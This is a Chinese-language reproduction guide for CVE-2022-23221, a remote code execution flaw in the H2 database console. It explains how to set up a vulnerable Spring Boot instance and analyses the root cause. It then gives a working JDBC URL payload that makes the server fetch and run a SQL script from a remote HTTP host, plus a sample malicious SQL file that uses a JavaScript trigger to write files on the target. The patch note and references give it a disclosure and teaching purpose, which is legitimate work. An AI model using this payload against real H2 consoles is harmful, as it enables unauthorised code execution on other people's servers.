


- [CVE-2022-23221 H2 未授权远程代码执行](#cve-2022-23221-h2-未授权远程代码执行)
  - [影响版本](#影响版本)
  - [环境搭建](#环境搭建)
  - [原理分析](#原理分析)
  - [复现](#复现)
    - [步骤](#步骤)
  - [补丁](#补丁)
  - [参考](#参考)
# CVE-2022-23221 H2 未授权远程代码执行
## 影响版本
H2 Version < v2.1.210
## 环境搭建
以mvn为例
1. 修改poc.xml文件,添加springboot和h2依赖.
```xml
    <dependencies>
        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter</artifactId>
        </dependency>
        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-test</artifactId>
            <scope>test</scope>
        </dependency>
        <dependency>
            <groupId>com.h2database</groupId>
            <artifactId>h2</artifactId>
            <scope>runtime</scope>
            <version>2.0.204</version>
        </dependency>
        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-web</artifactId>
        </dependency>
        <dependency>
            <groupId>org.springframework</groupId>
            <artifactId>spring-web</artifactId>
            <version>5.3.14</version>
        </dependency>
    </dependencies>
```
2. 修改application.properties文件,开启h2console访问
```xml
spring.h2.console.settings.web-allow-others=true
```
3. 启动Sprringboot,访问h2Console控制台。

## 原理分析
默认情况下当H2使用嵌入式URL指定数据库时,指定一个不存在的数据库时会默认创建一个空的数据库。官方说明如下  

而嵌入式URL中支持内存数据库,而且在连接时可以从SQL文件中执行SQL语句进行初始化,而该SQL文件的路径可以是远程的HTTP路径。

而h2的SQL语法中又支持执行JAVA代码导致RCE。
相关代码如下:


## 复现
Payload
```
jdbc:h2:mem:1337;IGNORE_UNKNOWN_SETTINGS=TRUE;FORBID_CREATION=FALSE;INIT=RUNSCRIPT FROM ' http://172.17.92.236:8081/poc.sql';'\
```
其中`http://172.17.92.236:8081/poc.sql`替换为要执行的恶意sql文件访问路径.  

恶意sql文件内容示例,该sql语句将在`E:\tmep\`下创建文件poctest。
```sql
CREATE TABLE test (
     id INT NOT NULL
 );

CREATE TRIGGER TRIG_JS BEFORE INSERT ON TEST AS '//javascript
var fos = Java.type("java.io.FileOutputStream");
var b = new fos ("E:\\temp\\poctest");';

INSERT INTO TEST VALUES (1);
```
### 步骤
在JDBC URL 中输入Payload,点击Connect。

页面刷新后,再次点击Connect,即可触发SQL语句执行,成功写入文件。


## 补丁
官方已修复该漏洞,升级H2版本到v2.1.210+即可。
增加了一个标志位来防止指定数据库不存在时建立空的数据库。


## 参考
https://h2database.com/html/features.html?highlight=mem&search=mem#in_memory_databases  
https://github.com/h2database/h2database/compare/version-2.0.206...version-2.1.210  
https://packetstormsecurity.com/files/165676/H2-Database-Console-Remote-Code-Execution.html